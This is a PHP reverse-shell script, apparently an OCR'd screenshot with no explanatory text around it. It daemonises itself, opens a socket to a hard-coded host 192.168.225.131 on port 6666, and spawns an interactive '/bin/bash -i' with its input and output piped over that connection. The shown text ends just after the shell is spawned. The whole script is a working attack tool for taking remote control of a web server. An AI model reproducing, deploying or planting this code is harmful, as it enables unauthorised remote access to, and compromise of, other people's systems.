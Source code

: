         set_time_limit (0);
        $VERSION = "1.0";
        $ip = '192.168.225.131';
        $port = 6666;
        $chunk_size = 1400;
        $write_a = null;
        $error_a = null;
        $shell = 'uname -a; w; id; /bin/bash -i';
        $daemon = 0;
        $debug = 0;

        if (function_exists('pcntl_fork')) {
            $pid = pcntl_fork();
            
            if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
            }
            
            if ($pid) {
                exit(0);  // Parent exits
            }
            if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
            }

            $daemon = 1;
        } else {
            printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
        }

        chdir("/");

        umask(0);

        // Open reverse connection
        $sock = fsockopen($ip, $port, $errno, $errstr, 30);
        if (!$sock) {
            printit("$errstr ($errno)");
            exit(1);
        }

        $descriptorspec = array(
        0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
        1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
        2 => array("pipe", "w")   // stderr is a pipe that the child will write to
        );

        $process = proc_open($shell, $descriptorspec, $pipes);

        if (!is_resource($process)) {
            printit("ERROR: Can't spawn shell");
            exit(1);
        }
